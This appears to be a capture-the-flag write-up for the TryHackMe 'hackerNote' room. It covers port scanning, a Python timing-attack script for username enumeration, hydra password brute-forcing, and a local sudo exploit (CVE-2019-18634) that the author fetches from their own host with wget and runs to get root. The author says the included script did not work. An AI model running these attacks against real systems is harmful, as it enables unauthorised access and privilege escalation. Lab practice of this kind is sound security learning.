 # recon
```
port scanning...
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
Enumerating open ports...
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-11 08:16 EDT
Nmap scan report for 10.10.128.8
Host is up (0.055s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:a6:95:34:62:b0:56:2a:38:15:77:58:f4:f3:6c:ac (RSA)
|   256 6f:18:27:a4:e7:21:9d:4e:6d:55:b3:ac:c5:2d:d5:d3 (ECDSA)
|_  256 2d:c3:1b:58:4d:c3:5d:8e:6a:f6:37:9d:ca:ad:20:7c (ED25519)
80/tcp   open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Home - hackerNote
8080/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Home - hackerNote
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 3.1 - 3.2 (92%), Linux 3.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.5 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- fail log in : Invalid Username Or Password 
when log in with wrong username, the web app take less time to reponse than when I using the valid username but wrong password. We can use this to enumerate valid username:

we will use a timing attack to find out username, I try to make my own script. BUT SADLY, It didnt work the way I wanted too... So pls use the script that provided by [NinjaJc01](https://github.com/NinjaJc01/hackerNoteExploits/blob/master/exploit.py)
```py
"""
python3 timing-atk.py <url> <usernsme-file>
"""
import requests, time, sys
URL = sys.argv[1]
USER_FILE = sys.argv[2]

def fire(username):
    creds = {"test":username,"password":"invalidPassword!"}
    res = requests.post(URL,json=creds)

print('fire the payloads')
timing = []
file = open(USER_FILE, "r")
for line in file:
    username = line.replace("\n", "")
    startTime = time.time()
    fire(username)
    endTime = time.time()
    timing.append((username, (endTime - startTime)))
    time.sleep(0.03)


print('done, now sorting \n top 10 usersname:')
timing.sort(key=lambda tup: tup[1])

for i in range(0,10):
	print(timing[(len(timing) -1) - i])
```
Now when we you should get a username. The hint for james's password **"my favourite colour and my favourite number"** so let create a costumise wordlist using color.txt and number.txt which are avalible on THM. we will use `combinator.bin` to combine both color.txt and number.txt together. Lets do it
```console
bibo318@parrot:~/THM/hackernote/wordlists$ find / -name combinator.bin 2> /dev/null 
/usr/lib/hashcat-utils/combinator.bin
^C
bibo318@parrot:~/THM/hackernote/wordlists$ /usr/lib/hashcat-utils/combinator.bin colors.txt numbers.txt > wordlist.txt
bibo318@parrot:~/THM/hackernote/wordlists$ wc -l wordlist.txt 
180 wordlist.txt
```
So let bruteforce for password using our lovly monster, `hydra`. to lern more about hydra, check hydra room on THM.
```console
bibo318@parrot:~/THM/hackernote/wordlists$ hydra -t 64 -l james -P wordlist.txt 10.10.71.229 http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"

[DATA] attacking http-post-form://10.10.71.229:80/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password
[STATUS] 64.00 tries/min, 64 tries in 00:01h, 116 to do in 00:02h, 64 active
[80][http-post-form] host: 10.10.71.229   login: j___   password: ____
```
log into the hackernote and you will find a note which contain james's ssh password.

# foothold
ssh to the victim server and grab user flag

# root
let check what we can run as root
```console
james@hackernote:~$ sudo -l
[sudo] password for james: ********
Sorry, user james may not run sudo on hackernote.
```
Unfortunately, the current user cannot run any commands as root. You may have noticed, however, that when you enter your password you see asterisks. This is not default behaviour. There was a recent CVE released that affects this configuration. The setting is called `pwdfeedback`, **CVE-2019-18634**

let the exploit, complie it, and tranfer to victim server. In this case, I was using python http server.
```console
bibo318@parrot:~/script$ git clone https://github.com/saleemrashid/sudo-cve-2019-18634.git
bibo318@parrot:~/script$ cd sudo-cve-2019-18634/
bibo318@parrot:~/script/sudo-cve-2019-18634$ ls
exploit.c  LICENSE  Makefile  README.md
bibo318@parrot:~/script/sudo-cve-2019-18634$ make all
cc -Os -g3 -std=c99 -Wall -Wextra -Wpedantic -static -o exploit exploit.c
bibo318@parrot:~/script/sudo-cve-2019-18634$ ls
exploit  exploit.c  LICENSE  Makefile  README.md
bibo318@parrot:~/script/sudo-cve-2019-18634$ python3 -m http.server --cgi 8000
```
now on victim server, exceute the exploit!!
```console
james@hackernote:~$ wget http://10.11.14.220:8000/exploit
james@hackernote:~$ chmod +x exploit 
james@hackernote:~$ ./exploit 
[sudo] password for james: 
Sorry, try again.
# whoami
root
```